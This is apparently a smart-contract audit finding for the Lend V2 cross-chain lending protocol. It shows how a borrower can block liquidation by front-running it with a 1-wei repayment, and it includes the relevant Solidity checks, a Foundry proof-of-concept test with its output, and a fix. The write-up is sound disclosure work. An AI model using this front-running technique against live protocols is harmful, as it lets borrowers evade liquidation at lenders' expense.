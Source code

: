 Innocent Aquamarine Swan

Medium

# User can prevent liquidations by frontrunning the transaction and slightly decreasing their debt

blurad

medium

## User can prevent liquidations by frontrunning the transaction and slightly decreasing their debt
## Summary
User can prevent liquidations by frontrunning the transaction and decreasing their debt so that the liquidation transaction reverts.

## Vulnerability Detail
In the cross-chain liquidation process, liquidators must specify the exact amount of debt they want to liquidate via the repayAmount parameter in liquidateCrossChain(). The protocol enforces strict validation that this amount cannot exceed the maximum allowable liquidation amount based on the close factor.

The vulnerability exists in two critical validation points:

In `_validateAndPrepareLiquidation()`

```solidity
uint256 maxLiquidationAmount = lendStorage.getMaxLiquidationRepayAmount(
    params.borrower,
    params.borrowedlToken,
    false // cross-chain liquidation
);
require(params.repayAmount <= maxLiquidationAmount, "Exceeds max liquidation");
```
In `_executeLiquidation()`

```solidity
uint256 maxLiquidation = _prepareLiquidationValues(params);
require(params.repayAmount <= maxLiquidation, "Exceeds max liquidation");
The maximum liquidation amount is calculated as:
maxLiquidation = currentBorrow * closeFactorMantissa / 1e18
```

## Impact
User can prevent liquidations by slightly modifying their position.

## PoC
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.23;

import "forge-std/Test.sol";
import "../src/LayerZero/CrossChainRouter.sol";
import "../src/LayerZero/LendStorage.sol";

contract FrontrunningLiquidationPOC is Test {
    CrossChainRouter public crossChainRouter;
    LendStorage public lendStorage;
    
    address public liquidator = makeAddr("liquidator");
    address public borrower = makeAddr("borrower");
    address public lToken = makeAddr("lToken");
    address public borrowedAsset = makeAddr("borrowedAsset");
    address public mockLendtroller = makeAddr("mockLendtroller");
    address public mockPriceOracle = makeAddr("mockPriceOracle");
    address public mockEndpoint = makeAddr("mockEndpoint");
    address public mockDelegate = makeAddr("mockDelegate");
    address public mockCoreRouter = makeAddr("mockCoreRouter");
    
    uint256 public constant INITIAL_DEBT = 1000e18;
    uint256 public constant CLOSE_FACTOR = 0.5e18; // 50%
    
    function setUp() public {
        // Deploy LendStorage first
        lendStorage = new LendStorage(mockLendtroller, mockPriceOracle, 1);
        
        // Mock the LayerZero endpoint to prevent delegate validation
        vm.mockCall(
            mockEndpoint,
            abi.encodeWithSignature("setDelegate(address)"),
            abi.encode()
        );
        
        // Deploy CrossChainRouter with proper delegate address
        crossChainRouter = new CrossChainRouter(
            mockEndpoint,     // endpoint - use mock address
            mockDelegate,     // delegate - use mock address (NOT zero)
            address(lendStorage),
            mockPriceOracle,
            mockLendtroller,
            payable(mockCoreRouter),
            1 // srcEid
        );
        
        // Authorize the CrossChainRouter to interact with LendStorage
        lendStorage.setAuthorizedContract(address(crossChainRouter), true);
        
        // Setup token mappings
        lendStorage.addSupportedTokens(borrowedAsset, lToken);
        
        // Mock lendtroller close factor
        vm.mockCall(
            mockLendtroller,
            abi.encodeWithSignature("closeFactorMantissa()"),
            abi.encode(CLOSE_FACTOR)
        );
        
        // Setup borrower with debt position
        _setupBorrowerPosition();
    }
    
    function _setupBorrowerPosition() internal {
        // Create a cross-chain collateral position for the borrower
        LendStorage.Borrow memory borrowPosition = LendStorage.Borrow({
            srcEid: 2, // Different chain
            destEid: 1, // Current chain
            principle: INITIAL_DEBT,
            borrowIndex: 1e18,
            borrowedlToken: lToken,
            srcToken: borrowedAsset
        });
        
        // Add the borrow position to storage
        vm.prank(address(crossChainRouter));
        lendStorage.addCrossChainCollateral(borrower, borrowedAsset, borrowPosition);
    }
    
    function testFrontrunningLiquidationFailure() public {
        console.log("=== Frontrunning Liquidation Attack POC ===");
        
        // Step 1: Calculate initial maximum liquidation amount
        uint256 initialMaxLiquidation = (INITIAL_DEBT * CLOSE_FACTOR) / 1e18; // 500e18
        
        console.log("Initial debt:", INITIAL_DEBT);
        console.log("Initial max liquidation:", initialMaxLiquidation);
        
        // Step 2: Borrower frontruns by slightly reducing debt (repaying 1 wei)
        uint256 frontrunAmount = 1; // 1 wei repayment
        uint256 newDebt = INITIAL_DEBT - frontrunAmount;
        
        // Update the borrower's position to simulate the frontrun
        LendStorage.Borrow[] memory userCollaterals = lendStorage.getCrossChainCollaterals(borrower, borrowedAsset);
        userCollaterals[0].principle = newDebt;
        
        vm.prank(address(crossChainRouter));
        lendStorage.updateCrossChainCollateral(borrower, borrowedAsset, 0, userCollaterals[0]);
        
        console.log("Debt after frontrun:", newDebt);
        
        // Step 3: Calculate new maximum liquidation after frontrun
        uint256 newMaxLiquidation = (newDebt * CLOSE_FACTOR) / 1e18;
        
        console.log("New max liquidation:", newMaxLiquidation);
        console.log("Liquidator's repay amount:", initialMaxLiquidation);
        console.log("Will liquidation fail?", initialMaxLiquidation > newMaxLiquidation);
        
        // Step 4: Mock the getMaxLiquidationRepayAmount to return the new max
        vm.mockCall(
            address(lendStorage),
            abi.encodeWithSignature("getMaxLiquidationRepayAmount(address,address,bool)"),
            abi.encode(newMaxLiquidation)
        );
        
        // Step 5: Attempt liquidation with original amount - should fail
        vm.expectRevert("Exceeds max liquidation");
        vm.prank(liquidator);
        crossChainRouter.liquidateCrossChain(
            borrower,
            initialMaxLiquidation, // Original calculated amount (now too high)
            2, // srcEid
            lToken,
            borrowedAsset
        );
        
        console.log("POC SUCCESS: Liquidation failed due to frontrunning!");
        console.log("The borrower successfully prevented liquidation by repaying only 1 wei");
        console.log("Liquidator's transaction reverted with 'Exceeds max liquidation'");
    }
}
```

PoC result

 === Frontrunning Liquidation Attack POC ===
  Initial debt: 1000000000000000000000
  Initial max liquidation: 500000000000000000000
  Debt after frontrun: 999999999999999999999
  New max liquidation: 499999999999999999999
  Liquidator's repay amount: 500000000000000000000
  Will liquidation fail? true
   POC SUCCESS: Liquidation failed due to frontrunning!
  The borrower successfully prevented liquidation by repaying only 1 wei
  Liquidator's transaction reverted with 'Exceeds max liquidation'

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.99ms (275.10µs CPU time)

Ran 1 test suite in 27.85ms (1.99ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)

## Code Snippet
https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CrossChainRouter.sol?plain=1#L197
https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CrossChainRouter.sol?plain=1#L235

## Tool used
Manual review

## Recommendation
The function shouldn't revert, instead just continue with the value it returns